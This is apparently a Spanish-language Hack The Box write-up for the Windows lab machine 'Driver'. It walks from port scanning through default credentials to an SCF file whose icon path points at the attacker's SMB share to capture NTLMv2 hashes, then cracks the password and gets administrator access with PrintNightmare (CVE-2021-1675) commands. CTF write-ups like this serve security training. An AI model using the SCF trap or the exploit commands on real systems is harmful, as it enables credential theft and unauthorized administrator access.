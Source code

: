 ```yaml
---
title: "Driver - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/driver/data/driver.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - SMB
  - SCF File Attack
  - SMB Relay Attack
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/driver/data/driverHTB.png">
</p>

La máquina **Driver** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **EASY** una calificación en el rank de 4.7, **9550 USER OWNS** y **8344 SYSTEM OWNS** con la ip **10.10.11.106** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.11.106]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-n:**     No hacen la resolución del DNS.
- **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,445,5985**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos realizare un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/Portserv.png">
  </p>

  El resultado de el scaneo a puertos y servicios no mostró información interesante así que iniciare la fase de reconocimiento mediante el servicio web aprovechando que esta el puerto **80** abierto.

  Al entrar a la pagina se puede ver un panel de inicio de sesión y probando credenciales básicas como **admin - admin** se puede acceder a la pagina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web1.png">
  </p>

  Examinando la pagina se puede llegar al apartado de **Firmware Update** y hay un texto muy interesante el cual dice que **Nuestro equipo de testeo revisará las cargas e iniciará las pruebas en breves**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/web2.png">
  </p>

  Buscando formas de ingresar una rever shell o algún binario con código malicioso no se llego a ningún resultado y analizando el texto y recordando que esta **SMB** abierto podemos hacer un ataque **SCF File Attack** esto mediante la creación de un archivo SCF (Shell Command Files) el cual sirve para realizar un conjunto limitado de operaciones como mostrar el escritorio de Windows o abrir un explorador de Windows un archivo SCF puede ser utilizado para acceder a una ruta UNC que se usan para acceder a los recursos de red.

  Todo esto se puede usar para que cuando la victima descargue el archivo el archivo tenga definido que el icono del mismo es un archivo en la red del atacante esto con el fin hacer un **SMB Relay** que es un ataque utilizado para llevar a cabo ataques **SMB man-in-the-middle** y de esta forma obtener los **Hashes NTLMv2** de usuario que esta descargando el archivo.

  Así que para hacer esto mencionado creare el archivo **SCF** con el siguiente contenido:

```powershell
[shell]
Command=2
IconFile=\\10.10.14.180\share\winsad.ico
[Taskbar]
Command=ToggleDesktop
```

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/scf.png">
</p>

Ya teniendo el archivo listo usare la herramienta llamada **responder** que esta programada en python y sirve para hacer los ataques SMB Relay.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder.png">
</p>

Ya listo el responder y esperando a eventos el siguiente paso subir el archivo en la web y esperar a que uno del equipo de testeo abra el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder1.png">
</p>

Una vez que se subo el archivo se puede ver como el usuario **Tony** abre el archivo y se ve como se obtiene el **hash NTLMv2**
del mismo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/responder2.png">
</p>

Usando el la herramienta de **john** y el diccionario **rockyou.txt** se puede crackear el hash y se puede ver que la contraseña del usuario **Tony** es **liltony**

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/scan/hash.png">
</p>

## Lateral Movement

Con esto que acabamos de conseguir y recordando la fase de scaneo podemos ver que el puerto **5985** que es **winrm** el servicio de escritorio remoto de Windows podemos intentar entrar con el usuario tony y su password que crackeamos.

Esto se hará con la herramienta **evil-winrm**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/winrm.png">
</p>

## Privilege escalation

Ya que estamos dentro de la maquina el siguiente paso es enumerar los privilegios y ver procesos activos en la maquina. Mediante se hace el reconocimiento se puede ver que existe un proceso poco usual en maquinas windows llamado **spoolsv**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/spoolsv.png">
</p>

Investigando se puede llegar a un repositorio de [github](https://github.com/calebstewart/CVE-2021-1675) este repositorio tiene un exploit el cual abusa de la vulnerabilidad con el **CVE: CVE-2021-1675**.

Así que sabiendo esto aprovechando la herramienta de **evil-winrm** usare el comando **upload** para subir el exploit de **powershell** a la maquina, para esto cree una carpeta llamada **winsad** en la ruta **/temp**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/exp1.png">
</p>

Ya una vez que subi el exploit y ejecute lo siguiente:

```powershell
  Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
  Import-Module .\cve-2021-1675.ps1
  Invoke-Nightmare -DriverName "Xerox" -NewUser "winsad" -NewPassword "winsad"
```


Lo que hace el exploit es abusar de un DLL de este servicio **spoolsv** y crea un usuario nuevo y lo agrega al grupo de **administrador**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root.png">
</p>


  Una vez ejecutado el exploit sin problemas vuelvo a entrar con **evil-winrm**  com las credenciales **winsad - winsad**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root1.png">
  </p>


  Y como se puede ver puedo acceder a la maquina con el usuario **winsad** el cual esta en el grupo **administrador**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/driver/intrusion/root2.png">
  </p>

  De esta forma podemos entrar al directorio del usuario Administrador y así visualizar la flag de root.
